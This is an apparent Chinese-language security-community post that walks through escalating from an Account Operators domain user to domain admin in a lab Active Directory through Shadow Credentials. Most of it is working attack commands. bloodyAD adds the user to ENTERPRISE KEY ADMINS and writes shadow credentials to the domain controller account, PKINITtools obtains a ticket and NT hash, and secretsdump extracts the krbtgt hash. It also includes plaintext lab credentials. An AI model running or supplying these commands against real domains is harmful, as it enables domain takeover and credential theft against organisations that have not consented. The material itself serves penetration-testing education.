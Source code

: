 

# 域内用户如何利用 Shadow Credentials 提权到域管 - 先知社区

域内用户如何利用 Shadow Credentials 提权到域管

- - -

如果攻击者可以修改目标对象（用户或计算机帐户）msDS-KeyCredentialLink 属性并以证书形式附加备用凭据，则攻击者可以修改该属性进而接管 AD 用户或计算机帐户。  
在攻防项目中，有时候拿了高权限的域用户却因权限不够，没法直接导出 krbtgt 的 hash，在这种场景下就可以利用 Shadow Credentials 进行提权  
假设我们拿到了这个域账号

IT-manager@penson.org/ITPenson@123 永遠的神  
查看这个域账号属于 ACCOUNT OPERATORS 组，这个组的成员是就可以管理域用户和账户的

[![](assets/1708508983-e21f643fffc103474d062d4d5cf0e3d9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220172118-6761a76c-cfd1-1.png)

[![](assets/1708508983-9d457c56da53396d2a100b4eabf77215.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220172120-68dc16b8-cfd1-1.png)  
但是是没办法拿到域控权限的，不属于 Adminstrators 组，是无法导出 krbtgt hash 的

[![](assets/1708508983-d815e940908f7863736252772605b52c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220172132-6fbc68ac-cfd1-1.png)  
由此需要想办法提权到域控权限，因为 ACCOUNT OPERATORS 组可以管理域用户和账户，由此可以添加该用户到特殊权限组  
利用 bloodAD

```bash
bloodyAD.py --host 192.168.21.114 -d penson.org -u IT-manager -p ITPenson@123 永遠的神 add groupMember 'Administrator' IT-manager
```

[![](assets/1708508983-4aae26f7830a74efd6c48d6fc00b4bc4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220172156-7e27fc62-cfd1-1.png)  
本来想直接加到 Administrator 组里，发现没有权限，那么应该加到哪个组呢？  
用 bloodhound 发现 ENTERPRISE KEY ADMINS 这个组可以 AddKeyCredentialLink，AddKeyCredentialLink 这个是什么意思呢？借用谷歌翻译  
ENTERPRISE KEY ADMINS@PENSON.ORG 组的成员能够写入 ADCS.PENSON.ORG 上的“msds-KeyCredentialLink”属性。写入此属性允许攻击者在对象上创建“影子凭证”并使用 kerberos PKINIT 作为主体进行身份验证。如果攻击者可以修改目标对象（用户或计算机帐户）msDS-KeyCredentialLink 属性并以证书形式附加备用凭据，则此技术允许攻击者接管 AD 用户或计算机帐户。

[![](assets/1708508983-9f9fa2fffdb12e2434b95fc168c5eb85.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220172207-8486e848-cfd1-1.png)  
尝试添加到 ENTERPRISE KEY ADMINS 这个组

```bash
python3.8 bloodyAD.py --host 192.168.21.114 -d penson.org -u IT-manager -p ITPenson@123 永遠的神 add groupMember 'ENTERPRISE KEY ADMINS' IT-manager
```

[![](assets/1708508983-aa1c2aebbc09d6890e7f1cffbba18f3e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220172242-9948663a-cfd1-1.png)  
为 AD$添加影子凭据

```bash
python3.8 bloodyAD.py --host 192.168.21.114 -d penson.org -u IT-manager -p ITPenson@123 永遠的神 add shadowCredentials AD$
```

[![](assets/1708508983-eb2643a107f6de3d7bf02a444adab11f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220172303-a61e2c82-cfd1-1.png)

利用 PKINITtools 拿票据

```bash
python3.8 ../PKINITtools/gettgtpkinit.py -cert-pem QNEvQE57_cert.pem -key-pem QNEvQE57_priv.pem penson.org/AD$ QNEvQE57.ccache -dc-ip 192.168.21.114
```

[![](assets/1708508983-8ad1e8d23e7cd1f23039b2348c577fd4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220172331-b66c00f0-cfd1-1.png)  
获取 AD$hash

```bash
python3.8 ../PKINITtools/getnthash.py penson.org/AD$ -key 3053f5d8109dc862de65741e58945abd584910abbef89cd50c9478a977d4c8aa -dc-ip 192.168.21.114
```

[![](assets/1708508983-4f4769b736715117e708145c4fba81ec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220172349-c168b2dc-cfd1-1.png)

```bash
python3.8 secretsdump.py penson.org/ad\$@192.168.21.114 -just-dc-user PENSON/krbtgt -hashes :c0032e2567e4f12b7f8ba3e436db4177
```

这个时候可以发现成功提权了

[![](assets/1708508983-c0bf9fdf8de2d5032c8a8176df1bbc5c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220172409-cd8283e0-cfd1-1.png)

参考文章  
[https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials)
